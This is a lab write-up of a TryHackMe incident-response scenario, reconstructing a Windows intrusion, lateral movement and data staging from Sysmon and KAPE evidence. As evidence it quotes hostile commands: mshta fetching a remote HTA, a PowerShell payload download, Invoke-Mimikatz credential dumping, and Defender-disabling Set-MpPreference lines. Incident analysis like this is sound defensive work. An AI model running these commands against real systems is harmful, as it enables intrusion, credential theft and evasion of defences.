










# Zero Tolerance — Windows Intrusion, Lateral Movement & Data Staging

**Environment:** Authorized TryHackMe training scenario (VaultSecure Banking / MSSP simulation)  
**Evidence:** Splunk Windows/Sysmon telemetry and KAPE filesystem triage  
**Skills:** Alert triage, execution-chain reconstruction, registry persistence, credential access, RDP/PsExec analysis, forensic script review

## Executive summary
A suspicious-persistence alert led to a multi-host intrusion investigation. The initial beachhead was `JP-BROWN-WS`. Evidence supports a malicious resume-themed Windows shortcut extracted from a ZIP file, execution through `mshta.exe`, a staged executable masquerading as RuntimeBroker, extensive outbound command-and-control communication, registry Run-key persistence, credential-access commands, movement to backup server `BKUP-SRV01`, and collection of high-value backup, database, and key material into a disguised archive.

This is a reconstruction of **lab evidence**, not evidence from a production environment. Network activity and logons were observed; the presence of an archive alone does not prove successful off-host exfiltration.

## Investigation path

### Initial execution
- Sysmon file creation at **2025-11-14 05:04:25** captured Internet-zone metadata for `C:\Users\jp.brown\Downloads\TravisClart_Resume.zip`, including a Google Drive content download URL.
- At **05:04:41**, `7zG.exe` extracted files into the user's Downloads directory.
- At **05:04:42**, Sysmon Event ID 11 captured `C:\Users\jp.brown\Downloads\TravisClart_Resume.pdf.lnk`. The deceptive double extension identifies a shortcut rather than a PDF.
- At **05:04:56**, Sysmon Event ID 1 recorded `C:\Windows\System32\mshta.exe http://10.10.14.174:80/KsWLx.hta`.

The timing supports a user-execution-to-LOLBin chain; the exact shortcut target was not recovered in the discussed evidence.




*Figure 1. Sysmon file creation links 7-Zip extraction to the deceptive TravisClart_Resume.pdf.lnk artifact.*




*Figure 2. The time-matched reg.exe event identifies mshta.exe and the remote HTA as its parent; other rows illustrate PID reuse.*

### Payload, command and control
The HTA execution chain launched PowerShell with a `Net.WebClient.DownloadFile` command retrieving `RuntimeBroker.exe` from `10.10.14.174:80` to `C:\Windows\Temp\RuntimeBroker.exe`, and the executable was started. A Sysmon Event ID 3 aggregation identified **12,640** connections from that executable to `10.10.14.174:8080` during the observed collection period. This repeated, process-attributed traffic strongly supports the C2 assessment.




*Figure 3. Sysmon network-event aggregation attributes 12,640 connections to RuntimeBroker.exe at 10.10.14.174:8080.*

### Persistence
Sysmon Event ID 13 and the corresponding `reg.exe` command show creation of the per-user Run value:

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor
  -> C:\Windows\Temp\RuntimeBroker.exe
```

Sysmon normalized the hive to `HKU\<user SID>` in its `TargetObject` field; the attacker’s command used `HKCU`.




*Figure 4. Registry telemetry shows SystemMonitor pointing to the executable in C:\Windows\Temp.*

### Credential access and defenses
- PowerShell process creation at **05:09:34** executed a downloaded PowerShell credential-access module from the BC-Security Empire repository: `Invoke-Mimikatz -DumpCreds`.
- The attacker also ran a standalone `mimikatz.exe` from the user's Downloads directory. Its interactive internal commands were **not** visible in the examined process-creation telemetry, so they should not be inferred.
- An encoded PowerShell command decoded to `Set-MpPreference -DisableRealtimeMonitoring 1` and `Set-MpPreference -ExclusionPath 'C:\'`, both with `-ErrorAction SilentlyContinue`. These are observed **attempts** to weaken Defender; success was not independently proven.




*Figure 5. A Sysmon process-termination event identifies the standalone Mimikatz executable; it does not reveal interactive credential-dumping commands.*

### Remote movement and successful login
- At **05:17:59**, Sysmon captured `PsExec64.exe` (PID **6612**) invoking a remote `reg add` command on `10.10.152.240`, identified as `BKUP-SRV01`.
- Network logons (Security Event ID 4624, Type 3) originated from `JP-BROWN-WS` (`10.10.52.82`) at **05:18:01** and afterward.
- `mstsc.exe /restrictedadmin /v:10.10.152.240` launched at **05:19:38**. The matching **Type 10 RemoteInteractive** successful logon on `BKUP-SRV01` was at **2025-11-14 05:19:42**, as `bkup-svc`. The distinction between Type 3 and Type 10 was essential to accurately identify the interactive login.




*Figure 6. PsExec64.exe targets the backup server with a remote registry command.*




*Figure 7. Security Event 4624 distinguishes the earlier Type 3 network logons from the Type 10 logon at 05:19:42.*

### Collection and staging
After access to the backup server, a PowerShell process downloaded `Setup-BackupServer.ps1` from `10.10.14.174:80` and saved it as `C:\Windows\Temp\Setup-BackupServer.ps1`. Later process telemetry showed the same script downloaded and invoked.

KAPE retained the script on `BKUP-SRV01`. Static inspection showed searches across backup, database, document, web application, SQL Server backup, and machine-key directories. Target patterns included `*.bak`, `*.backup`, `*.sql`, `*.mdb`, followed by `*.accdb`, virtual disk formats, configuration files, certificates, and keys.

The script staged copied files in a temporary directory, used `Compress-Archive` to create a dated ZIP, then renamed it to a `.dat` file. The reconstructed final path is:

```text
C:\Users\bkup-svc\AppData\Local\Temp\sysbackup_20251114.dat
```

The script shows the *intended* collection/staging behavior; successful exfiltration outside the host was not established by this evidence.




*Figure 8. Splunk records download and execution-related activity for Setup-BackupServer.ps1 on the backup server.*




*Figure 9. Static script inspection exposes the targeted extensions and collection locations.*




*Figure 10. The script compresses collected data and renames the ZIP to a dated .dat file; this shows staging logic, not confirmed exfiltration.*

## Evidence-based timeline

| Date/time (2025-11-14; Splunk display) | Evidence |
| --- | --- |
| 05:04:25 | Downloaded ZIP has Zone.Identifier |
| 05:04:41–05:04:42 | 7-Zip extraction, deceptive `.pdf.lnk` created |
| 05:04:56 | `mshta.exe` launches remote HTA; PowerShell stages payload; Run-key modified |
| 05:04:59 onward | `RuntimeBroker.exe` connects outbound |
| 05:09:34 | `Invoke-Mimikatz -DumpCreds` process command |
| 05:17:59 | PsExec remote execution toward backup server |
| 05:19:38–05:19:42 | RDP launched, then successful Type 10 logon |
| 05:21:26–05:23:58 | Collection script downloaded, run, and opened in PowerShell ISE |

## Selected indicators

| Type | Value | Significance |
| --- | --- | --- |
| Beachhead | `JP-BROWN-WS` / `10.10.52.82` | Source of remote logons |
| Target | `BKUP-SRV01` / `10.10.152.240` | Backup server |
| Network | `10.10.14.174:8080` | Observed C2 destination |
| File | `TravisClart_Resume.pdf.lnk` | Deceptive executable shortcut |
| LOLBin | `C:\Windows\System32\mshta.exe` | Remote HTA execution |
| Payload | `C:\Windows\Temp\RuntimeBroker.exe` | C2-communicating process |
| Registry | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run\SystemMonitor` | Persistence |
| Script | `C:\Windows\Temp\Setup-BackupServer.ps1` | Collection logic |
| Archive | `sysbackup_20251114.dat` | Disguised staged ZIP |

## MITRE ATT&CK mapping

| Technique | Rationale |
| --- | --- |
| T1204.002 — User Execution: Malicious File | Resume-themed shortcut delivered via archive |
| T1218.005 — System Binary Proxy Execution: Mshta | `mshta.exe` executing remote HTA |
| T1547.001 — Registry Run Keys / Startup Folder | `SystemMonitor` Run value |
| T1003 — OS Credential Dumping | `Invoke-Mimikatz -DumpCreds` |
| T1562.001 — Impair Defenses: Disable or Modify Tools | Defender preference modification attempts |
| T1021.002 / T1569.002 — SMB/Admin Shares / Service Execution | Candidate mapping for PsExec remote execution; service details require more validation |
| T1021.001 — Remote Desktop Protocol | Observed `mstsc` connection and successful Type 10 logon |
| T1005 — Data from Local System | Files gathered from server paths |
| T1560.001 — Archive Collected Data: Archive via Utility | `Compress-Archive` and rename to `.dat` |

## Defensive actions
1. Isolate the impacted workstation and backup server while preserving memory and logs.
2. Block the identified attacker IP/ports and hunt for the associated filenames, hashes and registry value.
3. Reset potentially exposed credentials and examine privileged authentication, sessions, and lateral-movement scope.
4. Remove the Run-key persistence and unauthorized payloads after evidence preservation.
5. Review Defender settings, PowerShell logging, script execution policy and remote-administration controls.
6. Protect backup repositories, private keys and database exports; investigate whether staged data left the network.

## Analyst reflection
The decisive pivots were **Zone.Identifier → 7-Zip-created shortcut → mshta parent/child activity → Event ID 3 destination aggregation**, then **PsExec process creation → 4624 logon-type correlation → KAPE script inspection**. An early assumption that the first Type 3 logon answered the RDP question was corrected by verifying Type 10.

**Evidence note:** This write-up is reconstructed from the lab investigation and supplied screenshots. Raw KAPE contents, passwords, payloads and challenge-answer-only material are intentionally not republished.

